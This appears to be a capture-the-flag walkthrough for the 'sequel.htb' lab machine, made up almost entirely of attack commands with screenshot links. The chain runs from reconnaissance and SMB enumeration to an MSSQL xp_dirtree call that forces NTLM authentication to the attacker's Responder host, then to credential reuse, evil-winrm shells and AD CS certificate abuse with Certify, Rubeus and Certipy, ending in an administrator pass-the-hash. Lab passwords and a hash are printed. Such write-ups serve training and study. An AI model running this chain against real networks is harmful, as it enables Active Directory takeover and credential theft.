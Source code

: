 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.202
dc.sequel.htb
```
![image](https://github.com/user-attachments/assets/9263ebf5-8f7b-407d-baa3-e3a46e8540af)

```
smbclient -L \\\\10.10.11.202\\
smbclient \\\\10.10.11.202\\Public
```
![image](https://github.com/user-attachments/assets/f31422ee-e143-4d2a-bef8-505127c28203)

```
python3 -m http.server 80
http://10.10.14.6/SQL%20Server%20Procedures.pdf
PublicUser | GuestUserCantWrite1
```
![image](https://github.com/user-attachments/assets/dd949602-8c3c-435d-b04e-0dc1ecb8d7ff)

```
./kerbrute_linux_amd64 userenum --dc 10.10.11.202 -d sequel.htb users_0
```
![image](https://github.com/user-attachments/assets/53c9d8de-3ef7-4c76-a88d-b3c09f6caa53)

```
impacket-mssqlclient sequel.htb/PublicUser:GuestUserCantWrite1@10.10.11.202
```
![image](https://github.com/user-attachments/assets/c4f31852-f910-4641-a631-8489f6023ac7)

```
responder -I tun0 -v
EXEC MASTER.sys.xp_dirtree '\\10.10.14.6\test', 1, 1
REGGIE1234ronnie (sql_svc)
```
![image](https://github.com/user-attachments/assets/bb0b8250-4cd0-463a-8fd9-0bd1882b66c2)

![image](https://github.com/user-attachments/assets/eabb3ae2-1343-47d2-8742-7f235c1acd67)

```
crackmapexec winrm 10.10.11.202 -u users_3 -p REGGIE1234ronnie --continue-on-success
evil-winrm -i 10.10.11.202 -u sql_svc -p REGGIE1234ronnie
```
![image](https://github.com/user-attachments/assets/a62a4cdd-c228-493f-8bde-caa93695ebca)

![image](https://github.com/user-attachments/assets/78b2d28d-f869-4b04-8b55-2ec48b8db114)

```
upload winPEASany.exe
./winPEASany.exe
```
![image](https://github.com/user-attachments/assets/170c7e63-ac22-43db-896d-fae7a896190b)

```
type C:\sqlserver\Logs\ERRORLOG.bak
```
![image](https://github.com/user-attachments/assets/53099c6d-e9cb-4d4a-8606-fa52dea217f3)

![image](https://github.com/user-attachments/assets/cd62b77f-eaad-4fbc-9e40-d95f595cb14e)

```
crackmapexec winrm 10.10.11.202 -u Ryan.Cooper -p NuclearMosquito3
```
![image](https://github.com/user-attachments/assets/bb11ad81-6b7a-4469-a77a-b9f5db898f5a)

```
evil-winrm -i 10.10.11.202 -u Ryan.Cooper -p NuclearMosquito3
```
![image](https://github.com/user-attachments/assets/95b9055c-951e-4a11-855b-ee410f182df7)

```
Download Certify.exe https://github.com/Flangvik/SharpCollection/tree/master/NetFramework_4.7_Any
upload Certify.exe
.\Certify.exe find /vulnerable /currentuser
```
![image](https://github.com/user-attachments/assets/291c9e18-5898-42e1-af69-1827741ff159)

![image](https://github.com/user-attachments/assets/982539d6-95a6-4b91-8d6a-9c1b6c695ca4)

```
.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator
```
![image](https://github.com/user-attachments/assets/2a436b62-2ab5-48d8-94f7-4b6af84b6493)

```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Enter no password
```
![image](https://github.com/user-attachments/assets/0bde621d-fe4b-493d-9f38-3ece278b7e9b)

```
upload cert.pfx
.\Rubeus.exe asktgt /user:administrator /certificate:C:\programdata\cert.pfx
```
![image](https://github.com/user-attachments/assets/6a4ab877-c5ea-4fef-9ce5-4da8f5eee66a)

```
.\Rubeus.exe asktgt /user:administrator /certificate:C:\programdata\cert.pfx /getcredentials /show /nowrap
```
![image](https://github.com/user-attachments/assets/39fbe789-1258-426c-ae50-07de66d154c6)


```
evil-winrm -i 10.10.11.202 -u administrator -H a52f78e4c751e5f5e17e1e9f3e58f4ee
```
![image](https://github.com/user-attachments/assets/9a786f1d-7388-4793-9eb6-318c435f64df)

```
git clone https://github.com/ly4k/Certipy.git
python3 setup.py install
Certipy
```
![image](https://github.com/user-attachments/assets/1bf7e649-bcca-4ca8-9648-5670bfe5b0ed)

# OR
```
certipy req -username Ryan.Cooper@sequel.htb -password NuclearMosquito3 -ca sequel-DC-CA -target 10.10.11.202 -template UserAuthentication -upn Administrator@sequel.htb -dns dc.sequel.htb -debug
certipy auth -pfx administrator_dc.pfx -dc-ip 10.10.11.202
```
![image](https://github.com/user-attachments/assets/801fdd01-029e-4076-b95c-ae91c65661a7)

```
sudo service virtualbox-guest-utils stop
sudo ntpdate -s 10.10.11.202
certipy auth -pfx administrator_dc.pfx -dc-ip 10.10.11.202
```
![image](https://github.com/user-attachments/assets/1327812c-7770-4ad0-bddf-bf280b2d149d)

```
